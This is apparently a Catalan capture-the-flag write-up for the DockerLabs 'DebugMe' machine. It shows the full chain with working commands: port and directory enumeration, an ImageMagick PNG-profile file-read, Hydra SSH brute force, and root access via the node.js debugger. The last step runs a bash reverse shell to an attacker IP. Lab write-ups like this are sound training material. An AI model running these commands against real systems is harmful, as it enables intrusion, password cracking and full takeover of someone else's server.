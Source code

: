 ```yaml
---
author: Lenam
pubDatetime: 2024-07-22T15:22:00Z
title: WriteUp DebugMe - Dockerlabs
slug: debugme-writeup-dockerlabs-ca
featured: false
draft: false
ogImage: "assets/debugme/OpenGraph.png"
tags:
  - writeup
  - dockerlabs
  - LFI
  - nodejs
description:
  Aquest desafiament de ciberseguretat guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js.
lang: ca
---
```


Aquest desafiament de ciberseguretat, disponible a <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guia els participants a través d'una intrusió en un servidor. El procés implica l'enumeració de serveis, l'explotació d'una vulnerabilitat de LFI, l'accés a SSH mitjançant força bruta i l'escalada de privilegis a través d'un procés de node.js per aconseguir accés root.

## Taula de continguts

## Enumeració

```bash
nmap -p- 172.17.0.2 -n -P
```

![nmap all ports](/assets/debugme/image-1.png)

```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```

![nmap ports 22, 80 and 443](/assets/debugme/image.png)

Visitem el lloc web als ports 80 i 443, i apareix la mateixa pàgina. Sembla ser una eina on podem seleccionar una imatge i les diferents versions de mida que volem per a la imatge.

![Resize image](/assets/debugme/image-2.png)

En enviar el formulari amb una imatge i diferents versions, les mostra en una pàgina.

![Result](/assets/debugme/image-3.png)

Fem una mica de fuzzing al servei web utilitzant gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Trobem el clàssic info.php, amb informació de PHP.

![gobuster](/assets/debugme/image-4.png)

A `/info.php`, trobem un munt d'extensions PHP instal·lades i una versió de PHP una mica desactualitzada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

També veiem que els mòduls `GD` i `Image Magick` estan instal·lats, cosa que pot ser utilitzada per al servei de transformació d'imatges.

## Intrusió

És probable que existeixin diferents maneres de realitzar la intrusió; en aquest cas, optem per una possible LFI (crec que això seria LFI, però no n'estic segur) que ocorre durant la transformació d'ImageMagick.

Més informació a:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Seguint les instruccions de hackplayers, instal·lem les dependències necessàries:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Utilitzem un PNG i afegim el camp de perfil amb la ruta que volem injectar. Això crearà l'arxiu pngout.png.

![pngcrush](/assets/debugme/image-5.png)

Verifiquem que s'hagi afegit correctament.

```bash
exiv2 -pS pngout.png
```

![alt text](/assets/debugme/image-6.png)

Ara fem servir la imatge pngout.png al servei web, seleccionem una mida i fem clic a "Resize".

![Resize payload](/assets/debugme/image-7.png)

Apareixen les dues imatges, fem clic dret en una i la descarreguem al nostre Kali, anomenant-la resultat.png.

![alt text](/assets/debugme/image-8.png)

Verifiquem si les dades s'han filtrat en el perfil.

```bash
identify -verbose resultat.png
```

![alt text](/assets/debugme/image-9.png)

Sembla que les dades s'han filtrat correctament. Copiem tots els bytes hexadecimals del perfil i els posem en una sola línia. Després, els incloem en el següent Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

I el resultat:

![alt text](/assets/debugme/image-10.png)

Genial, ara tenim un LFI, i podem veure que hi ha un usuari anomenat `lenam` i un altre anomenat `application`.

### Força Bruta SSH

Si intentem buscar altres arxius interessants, no trobem res. Intentem un atac de força bruta amb l'usuari `lenam` utilitzant Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Amb una mica de paciència, trobem la contrasenya SSH per a l'usuari lenam.

![lenam ssh password](/assets/debugme/image-11.png)

## Escalada de Privilegis

Accedim via SSH utilitzant l'usuari `lenam` i la contrasenya `loverboy`.

![alt text](/assets/debugme/image-12.png)

Veiem que podem executar la comanda `/bin/kill` com a root amb la contrasenya de lenam.

També observem els processos que està executant root i veiem que s'està executant un procés de node.js.

```bash
ps aux | grep root
```

![processes](/assets/debugme/image-13.png)

Verifiquem si hi ha ports locals oberts i trobem els ports 8000 i 9000.

```bash
netstat -ano | grep LISTEN
```

![ports](/assets/debugme/image-14.png)

El port 8000 sembla ser una aplicació node.js.

```bash
curl 127.0.0.1:8000
```

![alt text](/assets/debugme/image-15.png)

Com que podem matar qualsevol procés, intentem obrir el depurador de node.js enviant un senyal `SIGUSR1` al procés de node.js. Això hauria de reiniciar l'aplicació node.js amb el port de depuració obert (per defecte, el port 9229) i accessible a través de websockets.

Més informació:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Per obtenir el PID del procés de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

La comanda completa:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verifiquem si el port de depuració i inspecció 9229 ara està obert.

![port 9229](/assets/debugme/image-16.png)

Bingo! Ha funcionat. Ara entrem a l'aplicació node.js amb l'inspector.

```bash
node inspect 127.0.0.1:9229
```

![nodejs inspect](/assets/debugme/image-17.png)

Escoltem amb netcat.

```bash
nc -lvnp 5000
```

I executem la següent càrrega útil a la consola de depuració, reemplaçant la IP 10.0.2.15 per la teva.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```

![alt text](/assets/debugme/image-18.png)

Felicitats, ara som root.